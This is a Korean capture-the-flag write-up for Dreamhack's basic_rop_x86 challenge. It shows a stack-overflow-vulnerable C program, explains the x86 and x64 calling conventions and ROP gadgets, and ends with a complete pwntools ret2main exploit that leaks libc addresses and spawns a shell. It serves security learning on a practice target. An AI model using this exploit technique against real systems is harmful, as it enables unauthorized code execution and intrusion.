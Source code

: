 ## 소스 코드
```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}
```
### checksec
<img width="669" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/215a749b-9759-43d1-a2f3-4db33c079181">

## 문제 풀이 방법

해당 문제는 `basic_rop_x64` 문제처럼 `re2main`이나 `GOT Overwrite`로 풀이가 가능하다. 이번 문제에서는 `ret2main`으로 문제를 풀이하였는데 익스플로잇 코드를 처음 작성하며 실수한 부분이 2가지 있다. 

1. `x86(32bit)` 아키텍처에서는 `x64(64bit)` 아키텍처와 달리 `rbp` 대신 `ebp`를 쓰는 등 레지스터의 범위가 다르며 pwntools로 packing할 때, `p64`가 아닌 `p32`를 사용해야 하는데 이를 인지하지 못했었다.
2. 두번 째는 `x64`와 `x86`의 `Calling Convention`차이를 확인하지 못하였다.

해당 [링크](https://github.com/juhyeongkim527/Dreamhack-Study/blob/main/calling_convention.md)에서 확인할 수 있듯이, `x64`에서는 `rdi, rsi, rdx, rcx, r8, r9` 순서로 6개의 레지스터를 사용하며 초과한 나머지 인자는 `스택`에서 차례대로 사용한다.

그러나 `x86`에서는 `스택`에서 인자를 차례대로 `pop`해서 자동으로 `ebx, ecx, edx, esi, edi, ebp` 레지스터에 저장 후 사용하기 때문에 `x64`와 차이점이 있다.

그리고 `32bit` ELF 파일인 `basic_rop_x86`에는 `ebx, ecx, edx` 순으로 직접 `pop`을 하는 ROPgadget이 존재하지 않는데, 그렇더라도 32bit 호출 규악에서는 스택에 pop을 하면 자동으로 인자에 순서대로 저장되기 때문에,
`pop register`에서 register 종류에 상관 없이 pop을 연속으로 3번 해주는 `pop; pop; pop; ret;` 가젯을 이용하면 된다.

그리고 참고로 `ret;` 리턴 가젯은 **호출할 함수나 instruction주소** 앞에만 위치해야하고, `pop` 가젯 앞에 위치하면 안된다. 따라서, `pop; pop; pop; ret;` 가젯 대신 `pop; ret;` 가젯을 연속 3번 쓰면 실행을 할 수 없다.

## 익스플로잇 코드
```
from pwn import *

# ret2main

context.arch = "i386"
p = remote('host3.dreamhack.games', 14372)

e = ELF('./basic_rop_x86')
libc = ELF('./libc.so.6')
r = ROP(e)

read_got = e.got['read']
write_plt = e.plt['write']
main = e.symbols['main']

binsh = list(libc.search(b'/bin/sh'))[0]
read_system_offset = libc.symbols['read'] - libc.symbols['system']
read_binsh_offset = libc.symbols['read'] - binsh

pop = r.find_gadget(['pop ebp', 'ret'])[0]
pop3 = r.find_gadget(['pop esi', 'pop edi', 'pop ebp', 'ret'])[0]
ret = r.find_gadget(['ret'])[0]
# pop = 0x0804868b
# pop3 = 0x08048689
# ret = 0x080483c2

payload = b'a'*0x40 + b'a'*0x8
payload += p32(ret)
payload += p32(write_plt) + p32(pop3) + p32(1) + p32(read_got) + p32(0x4) + p32(main)
# payload += p32(write_plt) + p32(pop) + p32(1) + p32(pop) + p32(read_got) + p32(pop) + p32(0x4) + p32(main)
# 이렇게하면 ret이 섞여서 나와서 안됨

# first main

p.send(payload)

p.recvuntil(b'a'*0x40)
read = u32(p.recv(4))

system = read - read_system_offset
binsh = read - read_binsh_offset

# second main

payload = b'a'*0x40 + b'a'*0x8
payload += p32(system) + p32(pop) + p32(binsh)

p.send(payload)
p.interactive()
```

### 참고
<img width="829" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/e8de9669-fdd0-4b78-b49b-b7e87783834a">
